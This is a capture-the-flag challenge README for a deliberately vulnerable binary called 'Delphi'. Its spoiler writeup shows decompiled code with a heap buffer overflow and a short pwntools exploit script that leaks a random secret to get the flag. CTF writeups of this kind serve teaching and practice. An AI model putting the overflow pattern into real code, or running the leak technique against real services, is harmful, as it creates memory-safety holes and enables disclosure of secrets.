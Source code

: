 # Delphi

An <ins>extremely simple pwn</ins> challenge where a port and the a [zip file](out/challenge.zip) is given to the players.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-delphi:latest .`
2. Run the image: `podman rm -f ctf-delphi; podman run --rm -it -p 1337:1337 -e CHALLENGE_PORT=1337 --name ctf-delphi ctf-delphi:latest`
3. Share the [zip file](out/challenge.zip) and the port with the players

<details>
<summary>Writeup (Spoiler)</summary>

Let's run `checksec` on the binary first:

```
[steve@todo ctf-delphi]$ checksec --file=./out/delphi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH     Symbols          FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols        No    0               4               ./out/delphi
```

There is not much room for exploitation since the binary is compiled with all the mitigations enabled. We get the libc and all other interesting stuff from the Dockerfile: `ghcr.io/void-linux/void-glibc:20231003R1`

Let's run the binary:

```
[steve@todo ctf-delphi]$ ./out/delphi 
Welcome to the Oracle of Delphi!
Hic es forsit ut tuum futurum invenias.

I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future.
If not, shall the gods have mercy on your soul.

What shall I think of (ie What's my favorite instrument)? test
So you asked: test

Okay, now that's a good one. Let me think...
Got it. Any clue what it is I had in mind? no
Nope, that's not it. You're doomed.
```

We either go for random fuzzing here and play with the values to see if we can trigger a stack overflow or we just open the binary in Ghidra and see what's going on. Here is the pseudocode of the `main` function:

```c

undefined8 FUN_001013bf(void)

{
  int iVar1;
  time_t tVar2;
  long in_FS_OFFSET;
  int local_7c;
  char *local_78;
  size_t local_70;
  char *local_68;
  char *local_60;
  FILE *local_58;
  __ssize_t local_50;
  char local_48 [56];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  FUN_0010131c();
  FUN_00101289();
  local_68 = (char *)malloc(0x10);
  local_60 = (char *)malloc(0x20);
  memset(local_60,0,0x20);
  getrandom(local_60,0x20,0);
  for (local_7c = 0; local_7c < 0x20; local_7c = local_7c + 1) {
    if ((local_60[local_7c] == '\0') || (local_60[local_7c] == '\n')) {
      local_60[local_7c] = '*';
    }
  }
  puts("Welcome to the Oracle of Delphi!");
  puts("Hic es forsit ut tuum futurum invenias.\n");
  puts(
      "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
      );
  puts("If not, shall the gods have mercy on your soul.\n");
  printf("What shall I think of (ie What\'s my favorite instrument)? ");
  FUN_00101341(local_68);
  printf("So you asked: ");
  puts(local_68);
  puts("Okay, now that\'s a good one. Let me think...");
  sleep(2);
  printf("Got it. Any clue what it is I had in mind? ");
  fgets(local_48,0x21,stdin);
  iVar1 = strncmp(local_48,local_60,0x20);
  if (iVar1 == 0) {
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    local_78 = (char *)0x0;
    local_70 = 0;
    tVar2 = time((time_t *)0x0);
    srand((uint)tVar2);
    local_58 = fopen("flag.txt","r");
    if (local_58 == (FILE *)0x0) {
      puts("Error: flag.txt not found. Contact an admin.");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    while (local_50 = getline(&local_78,&local_70,local_58), local_50 != -1) {
      printf("%s",local_78);
    }
    fclose(local_58);
    if (local_78 != (char *)0x0) {
      free(local_78);
    }
  }
  else {
    puts("Nope, that\'s not it. You\'re doomed.");
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

So far so good. There is no obvious vulnerability here, but we can see some mallocs and a call to `fgets`. Let's see what the `FUN_00101341` function does:

```c
void FUN_00101341(void *param_1)

{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Now that's what I call a classic example of a nasty buffer overflow! So it creates a temporary buffer, reads the user input into it and copies the result back to the input buffer. However the input buffer is only 16 bytes long, so we can easily overflow it. But due to the mitigations in place, we can't do much. Let's just see what the main function does.

So its essentially generating some random data, asks the user to input something and compares the input with the random data. If the input matches the random data, it prints the flag. So we need to leak the random data somehow. Let's see what happens if we give it a very long input and echo it back:

```py
exe = "./out/delphi"
elf = context.binary = ELF(exe, checksec=False)
context.log_level = "debug"

io = start()

io.sendlineafter(b"instrument)?", cyclic(31))
line = io.recvline()
log.info(f"Line: {line}")

thought = io.recvline()[0:32]
log.info(f"Thought: {thought}")

io.sendafter(b"mind? ", thought)

io.recvline_endswith(b"coffee.")
flag = io.recvline().decode().strip()
log.info(f"Flag: {flag}")
```

```
[DEBUG] Received 0x2b bytes:
    b'Got it. Any clue what it is I had in mind? '
[DEBUG] Sent 0x20 bytes:
    00000000  94 30 16 55  65 ae 96 d8  1e 9b 5e 59  71 02 6e 41  │·0·U│e···│··^Y│q·nA│
    00000010  1f 02 af a8  61 c1 0d 3f  02 ba 4d 62  d5 d8 df 46  │····│a··?│··Mb│···F│
    00000020
[DEBUG] Received 0x4e bytes:
    b'Woah... You got it. Interested in a job offer? We have some good java coffee.\n'
[DEBUG] Received 0x37 bytes:
    b'cq23{l3t_mE_t3ll_UR_FUtuRe:ur_g0nna_be_4_gr3at_h4ck3r}\n'
[*] Flag: cq23{l3t_mE_t3ll_UR_FUtuRe:ur_g0nna_be_4_gr3at_h4ck3r}
[*] Process './out/delphi' stopped with exit code 0 (pid 150741)
```

We get back the flag. This was way too easy!
</details>